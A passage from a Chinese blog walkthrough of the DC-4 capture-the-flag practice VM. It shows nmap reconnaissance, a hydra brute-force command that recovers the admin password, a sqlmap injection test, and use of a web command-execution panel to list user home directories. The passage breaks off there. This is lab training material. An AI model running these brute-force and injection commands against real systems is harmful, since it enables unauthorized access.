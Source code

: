 ```yaml
---
 title: DC-4靶机渗透实战
 date: 2020-02-05 13:21:48
 tags: 靶机渗透
 categories: 靶机渗透
---
```


### 靶机介绍

这次的靶机渗透实战是一个找寻靶机中的flag的过程，并以获得最终的flag为目标。
靶机下载地址:http://www.five86.com/dc-4.html

### 信息搜集
直接上nmap进行扫描
> nmap -sV -A 172.16.0.16 -oN dc.nmap 
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 8d:60:57:06:6c:27:e0:2f:76:2c:e6:42:c0:01:ba:25 (RSA)
|   256 e7:83:8c:d7:bb:84:f3:2e:e8:a2:5f:79:6f:8e:19:30 (ECDSA)
|_  256 fd:39:47:8a:5e:58:33:99:73:73:9e:22:7f:90:4f:4b (ED25519)
80/tcp open  http    nginx 1.15.10
|_http-server-header: nginx/1.15.10
|_http-title: System Tools
MAC Address: 00:0C:29:93:30:DE (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

![2020-2-5-13-24-16](https://raw.githubusercontent.com/bbkali/picbad/master/2020-2-5-13-24-16)

**可知开放22、80端口，linux主机 web是一个登录框 考虑万能密码 注入 爆破**


### 渗透实战

1. 页面提示是admin的登录框，直接拿admin进行爆破
- 可以使用hydra、burpsuit爆破，以hydra为例
> hydra -l admin -P /usr/share/john/password.lst -f 172.16.0.16 http-post-form "/login.php:username=^USER^&password=^PASS^:S=logout" -vV
```
[VERBOSE] Page redirected to http://172.16.0.16/index.php
[VERBOSE] Page redirected to http://172.16.0.16/index.php
[VERBOSE] Page redirected to http://172.16.0.16/index.php
[80][http-post-form] host: 172.16.0.16   login: admin   password: happy
[STATUS] attack finished for 172.16.0.16 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```
直接爆出账号密码
2. 同时用sqlmap简单测试下是否有注入漏洞
> sqlmap -u http://172.16.0.16/ --data "username=admin&password=admin" --thread 10 --batch --dbs
发现没有注入漏洞
3. 直接账号登录后台，有命令执行窗口，发现有4个用户
![2020-2-5-13-48-44](https://raw.githubusercontent.com/bbkali/picbad/master/2020-2-5-13-48-44)
> root charles jim sam
- 查看用户家目录文件,只有jim下有文件
```
You have selected: ls -R /home/
```